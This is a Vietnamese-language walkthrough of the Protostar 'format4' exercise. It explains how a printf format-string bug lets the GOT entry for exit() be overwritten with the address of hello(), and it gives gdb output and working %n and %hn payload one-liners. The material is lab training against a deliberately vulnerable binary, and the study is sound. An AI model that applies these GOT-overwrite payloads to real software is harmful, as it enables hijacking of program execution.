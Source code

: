 # FORMAT FOUR

## About

format4 looks at one method of redirecting execution in a process.

Hints:

  * objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT FOUR` cho chúng ta thấy được khi overwrite everywhere sử dụng format string được ghi vào những vị trí chuyển hướng thực thi trong chương trình sẽ giúp chúng ta điều khiển luồng thực thi chương trình thực thi theo ý ta muốn.

Thử thách này hoàn thành khi ta in ra được dòng chữ `"code execution redirected! you win"` nhưng lại không hề có điều kiện hay chỗ nào gọi đến hàm `hello()` trong hai hàm mà chương trình sẽ thực thi là `main()` và  `vuln()`.

Ý tưởng của bài này là sẽ ghi đè địa chỉ hàm `hello()` lên địa chỉ của hàm `exit(1)` được lưu trong `GOT - Global Offset Table` để khi thoát hàm `vuln()` chương trình sẽ chuyển hướng thực thi tới `hello()` thay vì gọi hàm `exit(1)` và thoát chương trình.

Input chương trình bắt đầu ở parameter thứ 4.

```
root@protostar:/opt/protostar/bin# ./format4
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd8420 0xbffffb04 0x414141c3 0x70252041 0x20702520
```

Địa chỉ hàm `hello()`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) set disassembly-flavor intel
(gdb) p hello
$1 = {void (void)} 0x80484b4 <hello>
```

Tiếp theo là địa chỉ trong `GOT` nơi chứa địa chỉ của `exit(1)`. Bạn có thể đọc hiểu rõ hơn về `GOT` và `PLT` ở tài liệu tôi để ở `Documents`. 

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) x/2i 0x80483ec
0x80483ec <exit@plt>:   jmp    DWORD PTR ds:0x8049724
0x80483f2 <exit@plt+6>: push   0x30
(gdb)
```

Vậy là địa chỉ `GOT của exit(1)` = 0x8049724.

```
                 1      2      3
hex     | \xb4 | \x84 | \x04 | \x08 |
decimal | 180  |  388 |  516 |  776 |
Đã có   |  16  |  180 | 388  |  516 |
Cần     |  164 | 208  | 128  | 260  |
para    |  4   |  5   |  6   |   7  |
Addr:
0x80497xx| 24  | 25   | 26   |  27  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08" + "%164x" + "%4$n" + "%208x" + "%5$n" + "%128x" + "%6$n" + "%260x" + "%7$n"' | ./format4
$%&'                                                                                                                                                                 200                                                                                                                                                                                                        b7fd8420                                                                                                                        bffffb04                                                                                                                                                                                                                                                             8049724
code execution redirected! you win
```

Cách điền `hn-hn` bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08" + "%" + str(0x84b4 - 8) + "x%4$hn" + "%" + str(0x10804 - 0x84b4) + "x%5$hn"' | ./format4
```

## Documents

Bạn có thể đọc phần Format String của cuốn này: <https://whitehat.vn/attachments/nghe-thuat-tan-dung-loi-phan-mem-pdf.1430/>

<https://www.exploit-db.com/papers/13203>



